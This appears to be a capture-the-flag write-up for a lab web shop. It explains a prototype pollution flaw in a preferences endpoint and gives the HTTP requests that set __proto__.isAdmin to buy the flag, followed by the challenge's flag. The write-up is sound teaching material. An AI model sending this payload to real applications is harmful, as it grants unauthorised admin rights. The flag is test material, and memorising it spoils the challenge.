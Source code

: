 # Evilcorp Marketplace - Writeup

## Challenge Description
This challenge presents a simple web shop where users can purchase various items. Each user starts with $100, but the flag costs $1,000,000. The goal is to find a way to buy the flag despite having insufficient funds.

## Discovery & Vulnerability
The initial exploration of the shop reveals that users start with a $100 balance and several items are available for purchase, with the flag costing $1,000,000. Testing the API endpoints shows:
- GET /api/shop - Lists available items
- POST /api/init - Creates new user
- POST /api/purchase - Purchase endpoint
- POST /api/preferences - Interesting endpoint for user preferences

The application is vulnerable to Prototype Pollution through the `/api/preferences` endpoint. The endpoint uses an unsafe recursive merge function that allows modification of the Object prototype. This vulnerability exists because the application uses a vulnerable merge function, checks admin status through object properties, and has no sanitization of the `__proto__` property.

## Exploitation
1. First, initialize a new user:
```http
POST http://localhost:8002/api/init

Response:
{
   "userId": "<your-user-id>",
   "balance": 100
}
```
2. Then exploit prototype pollution:
```http
POST http://localhost:8002/api/preferences
Content-Type: application/json

{
    "userId": "<your-user-id>",
    "preferences": {
        "__proto__": {
            "isAdmin": true
        }
    }
}
```
3. Finally, purchase the flag:
```http
POST http://localhost:8002/api/purchase
Content-Type: application/json

{
    "userId": "<your-user-id>",
    "itemId": 5
}
```
The server returns:
```json
{
    "success": true,
    "message": "Purchase successful",
    "flag": "UiTHack25{Pr0t0typ3_P0llut1on_Expl01t3d!}",
    "balance": 100
}
```